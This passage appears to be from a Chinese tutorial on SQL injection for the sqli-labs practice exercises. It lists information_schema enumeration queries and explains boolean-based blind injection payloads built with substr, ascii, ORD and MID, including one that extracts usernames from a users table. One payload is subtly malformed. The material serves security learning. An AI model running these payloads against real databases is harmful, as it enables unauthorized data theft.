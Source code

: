     猜数据库
    
    select schema\_name from information\_schema.schemata
    
    猜某库的数据表
    
    select table\_name from information\_schema.tables where table\_schema='xxxxx'
    
    猜某表的所有列
    
    Select column\_name from information\_schema.columns where table\_name='xxxxx'
    
    获取某列的内容
    
    Select \*\*\* from \*\*\*\*
    
    上述知识参考用例：less1-less4
    



# 盲注讲解




何为盲注？盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。从background-1中，我们可以知道盲注分为三类

•基于布尔SQL盲注

•基于时间的SQL盲注

•基于报错的SQL盲注

Ps：知识点太多了，这里只能简单列出来大致讲解一下。（ps：每当看到前辈的奇淫技巧的payload时，能想象到我内心的喜悦么？我真的想细细的写写这一块，但是不知道该怎么写或者小伙伴需要怎么样来讲这个，可以m我。）

## **1：基于布尔SQL盲注----------构造逻辑判断**

我们可以利用逻辑判断进行

截取字符串相关函数解析http://www.cnblogs.com/lcamry/p/5504374.html（这个还是要看下）

▲left(database(),1)>'s' //left()函数

Explain:database()显示数据库名称，left(a,b)从左侧截取a的前b位

▲ascii(substr((select table\_name information\_schema.tables where tables\_schema=database()limit 0,1),1,1))=101 --+ //substr()函数，ascii()函数

Explain：substr(a,b,c)从b位置开始，截取字符串a的c长度。Ascii()将某个字符转换为ascii值

▲ascii(substr((select database()),1,1))=98

▲ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23 //ORD()函数，MID()函数

Explain：mid(a,b,c)从位置b开始，截取a字符串的c位

Ord()函数同ascii()，将字符转为ascii值

▲regexp正则注入
